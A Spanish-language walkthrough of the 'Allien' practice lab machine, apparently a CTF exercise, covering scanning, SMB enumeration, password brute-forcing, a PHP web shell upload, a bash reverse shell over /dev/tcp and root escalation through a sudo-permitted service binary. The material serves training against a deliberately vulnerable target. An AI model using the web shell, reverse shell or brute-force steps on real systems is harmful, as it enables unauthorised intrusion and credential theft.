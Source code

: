 - Tags: #Allien
---
[Maquina Allien](https://mega.nz/file/6RVkASLT#-F9PMveM06geq87FUaUAuHFpkEq85tG61zZGkswgcsE) -> Enlace de descarga al laboratorio.

```bash
7z x allien.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh allien.tar # Desplegamos el laboratorio
```
#### Fase Reconocimiento:
```bash
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el taraget.

wichSystem.py 172.17.0.2 # Determinamos que esamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
#### Fase Reconocimiento Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-5000 # Usamos nuestra herramienta para enumerar desde el 1 al puerto 5000
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos.
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo.
nmap -sC -sV -p22,80,139,445 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0) )** -> Servicio ssh expuesto
**( 80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu)) )** -> Servicio web expuesto. **( ubuntuNoble )**
**( 139/tcp open  netbios-ssn Samba smbd 4 )** -> Servicio **SMB** expuesto
**( 445/tcp open  netbios-ssn Samba smbd 4 )** -> Servicio **SMB** expuesto
#### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2 # No reporta nada critico

nmap --script http-enum -p80 172.17.0.2 # Nos reporta
/info.php: Possible information file # Tenemos un archivo
```

**( http://172.17.0.2/info.php )** -> Revisaremos este archivo para poder detectar una mala configuracion en el servicio php

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,back,html,js # Filtrando por archivos tenemos los siguientes.

/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72704]
/productos.php        (Status: 200) [Size: 5229]
```
#### Fase Enumeracion Samba:
```bash
nmap -p 139,445 -sV --script smb-os-discovery 172.17.0.2 # Detectamos la version de este servicio es version 4

nmap -p 445 --script smb-protocols 172.17.0.2 # Detectamos los protocolos aceptados por este servicio
Host script results:
| smb-protocols: 
|   dialects: 
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
```

```bash
smbclient -L 172.17.0.2 -N # Listamos recurso que no requieran credenciales

Anonymous login successful # Usuario anonymous habilitado

        Sharename       Type      Comment
        ---------       ----      -------
        myshare         Disk      Carpeta compartida sin restricciones # Carpeta compartida
        backup24        Disk      Privado
        home            Disk      Produccion
        IPC$            IPC       IPC Service (EseEmeB Samba Server)
```

```bash
smbclient //172.17.0.2/myshare -N # Logramos conectarnos como el usuario anonymous
```

```bash
enum4linux -a 172.17.0.2 # Enumeracion exhaustiva del servico samba

S-1-22-1-1004 Unix User\satriani7 (Local User) # Aplicaremos fuerza bruta a este usuario con hydra
S-1-22-1-1005 Unix User\administrador (Local User)

crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt # Aplicamos fuerza bruta.
[+] SAMBASERVER\satriani7:50cent  # Tenemos la password.
```

```bash
smbmap -H <IP> -u "satriani7" -p "50cent" # Listamos los recursos compartido para este usuario.
smbmap -H 172.17.0.2 -u "satriani7" -p "50cent" -r backup24/Documents/Personal  # Logramos detectar estas rutas donde contempla un archivo.
fr--r--r--              902 Sun Oct  6 07:23:28 2024    credentials.txt # Tenemos un archivo potencial.
```

```bash
smbclient //172.17.0.2/backup24/ -U satriani7%50cent # Nos conectamos como este usuario.
get credentials.txt # Nos descargamos este archivo.
```

```bash
7. Usuario: administrador # Usaremos estas credenciales para acceder como administrador por ssh
    - Contraseña: Adm1nP4ss2024 
ssh-keygen -R 172.17.0

smbclient //172.17.0.2/backup24/ -U administrador%Adm1nP4ss2024 # Ahora nos conectamos a este recurso del administrador.

dir # Listamos el contenido para ver que es lo mismo que tenemos cuando iniciamos la web
  .                                   D        0  Sun Oct  6 23:40:09 2024
  ..                                  D        0  Sun Oct  6 23:40:09 2024
  styles.css                          N      263  Sun Oct  6 09:22:06 2024
  info.php                            N       21  Sun Oct  6 07:32:50 2024
  index.php                           N     3543  Sun Oct  6 20:28:45 2024
  productos.php                       N     5229  Sun Oct  6 09:21:48 2024
  back.png                            N   463383  Sun Oct  6 07:59:29 2024

```

**Nota** -> Cargaremos un archivo **php** malicioso para poder derivarlo a un **RCE** en el servcio web, Procederemos a crearlo el archio que contendra las siguietes instrucciones.
```php
<?php
	system($_GET["cmd"])
?>
```

```bash
cmd.php                             A       33  Wed May 21 21:28:11 2025 # Ahora ya esta cargado, el archivo.
```

**( http://172.17.0.2/cmd.php?cmd=whoami )** -> Ahora tenemos capacidad de ejecucion de comandos.

```bash
nc -nlvp 443

172.17.0.2/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.22/443 <%261' -> Ejecutamos para ganar acceso a la maquina.
```

#### Fase Escalada:
```bash
sudo -l

User www-data may run the following commands on 4af7fdb6cac1:
    (ALL) NOPASSWD: /usr/sbin/service # Tenemos una via potencial de elevar privilegios.
```

```bash
/var/www/html$ sudo -u root /usr/sbin/service ../../bin/bash # Ahora Somos root.
```